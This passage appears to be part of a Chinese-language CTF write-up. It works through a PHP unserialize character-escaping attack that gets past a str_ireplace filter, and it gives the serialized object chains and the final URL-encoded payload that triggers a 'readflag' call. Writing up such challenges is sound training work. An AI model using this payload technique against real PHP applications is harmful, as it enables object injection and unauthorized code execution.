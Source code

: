  ``` php

$reflection=new B();

$reflection->b=$f;
 ```


接着我们需要bypass `strstr_ireplace("\0","00",$ser)`，

题目中只能通过 c 进行传值，因此需要通过题目提供的 str_ireplace() 函数进行字符逃逸给 str 赋值以下内容`";s:3:"str";O:1:"B":1:{s:1:"b";a:2:{i:0;O:1:"A":1:{s:3:"key";s:5:"key";}i:1;s:8:"readflag";}}}`

可以发现 `s:5:"key";`匹配不上，结果需要是 `\0key\0` ，又因为现在序列化用的是双引号，PHP 使用单引号时 `\0` 无法被转义，因此需要使用 `str_ireplace('00', "\0", $str)` 进行替换，并且在序列化中 s 不能识别十六进制字符，因此需要将 s 改为 S 。

 

在题目有还有一个 `str_ireplace("\0","00",$ser)`; 会将`\0` 变成 `00` ，因此需要给 key 的值加上反斜杠 `\`

 ``` php
 str_ireplace('00', "\0", '";s:3:"str";O:1:"B":1:{s:1:"b";a:2:{i:0;O:1:"A":1:{s:3:"key";S:5:"\00key\00";}i:1;s:8:"readflag";}}}');
 
 //O:1:"C":2:{s:1:"s";s:197:"1";s:3:"str";O:1:"B":1:{s:1:"b";a:2:{i:0;O:1:"A":1:{s:3:"key";S:5:"\key\";}i:1;s:8:"readflag";}}}";s:3:"str";N;}
 ```

因此逃逸的字符有 96 个，即

 ```php
 ";s:3:"str";O:1:"B":1:{s:1:"b";a:2:{i:0;O:1:"A":1:{s:3:"key";S:5:"\key\";}i:1;s:8:"readflag";}}}
 ```

接下来就是进行字符逃逸，先通过 `str_repeat("\0", 96)` 进行尝试得到的结果如下： 

（192 个 0）

``` php
O:1:"C":2:{s:1:"s";s:194:"000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000";s:3:"str";O:1:"B":1:{s:1:"b";a:2:{i:0;O:1:"A":1:{s:3:"key";S:5:"\00key\00";}i:1;s:8:"readflag";}}}";s:3:"str";N;}
```

不足以逃逸就继续向上增，增到 98 时发现正好足够：

（196 个 0）

``` php
O:1:"C":2:{s:1:"s";s:196:"0000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000";s:3:"str";O:1:"B":1:{s:1:"b";a:2:{i:0;O:1:"A":1:{s:3:"key";S:5:"\00key\00";}i:1;s:8:"readflag";}}}";s:3:"str";N;}
```

这时候就已经逃逸成功了，通过 urlencode() 就可以得到 payload

```
%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%22%3Bs%3A3%3A%22str%22%3BO%3A1%3A%22B%22%3A1%3A%7Bs%3A1%3A%22b%22%3Ba%3A2%3A%7Bi%3A0%3BO%3A1%3A%22A%22%3A1%3A%7Bs%3A3%3A%22key%22%3BS%3A5%3A%22%5C%00key%5C%00%22%3B%7Di%3A1%3Bs%3A8%3A%22readflag%22%3B%7D%7D%7D
```
